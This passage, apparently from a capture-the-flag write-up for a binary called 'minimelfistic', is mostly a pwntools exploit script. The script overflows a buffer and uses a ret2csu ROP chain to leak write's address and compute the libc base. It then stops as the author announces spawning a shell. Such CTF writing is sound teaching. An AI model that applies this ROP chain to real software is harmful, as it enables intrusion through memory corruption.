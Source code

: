 ```py
io = start()
#io = remote("localhost", 1337)
e = ELF("./minimelfistic")
libc = ELF("./libc.so.6")
  
CRASH = b"9" + b"A"*71
  
# ROP (pop rdi; ret)
rop = ROP(e)
POP_RDI_RET = p64(rop.find_gadget(["pop rdi", "ret"])[0])
  
# We need to call write(int fd, const void* buf, size_t count);
CSU_POP_SLIDE = p64(e.sym.__libc_csu_init+90)
CSU_MOVS = p64(e.sym.__libc_csu_init+64)
  
PAYLOAD = [
	CRASH,
	POP_RDI_RET,
	p64(1),
	CSU_POP_SLIDE,
	p64(0), # rbx
	p64(1), # rbp
	p64(0x00602db8), # r12 (else 0x400a0c, 00602db8)
	p64(1), # r13
	p64(e.got.write), # r14
	p64(8), # r15
	CSU_MOVS,
	b"AAAAAAAA"*7,
	p64(e.plt.write),
	p64(e.sym.main)
]

io.sendlineafter(b"> ", b"".join(PAYLOAD))
print(io.recvline())
print(io.recvline())
print(io.recvline())

WRITE_LEAK = u64(io.recv(8).ljust(8, b'\x00'))
libc.address = WRITE_LEAK - libc.sym.write

log.info(f"Leaked address of write : {hex(WRITE_LEAK)}")
log.info(f"Leaked address of libc : {hex(libc.address)}")

io.interactive()
```

Running this script should output the leaked address and the base address of libc, we're on the way to pwn this challenge hehe.

## Spawning a Shell
Now that we know the base address of libc we can pretty much execute what we want with the binary, but we'll stay in the challenge boundaries and go with the simplest payload i could think of.
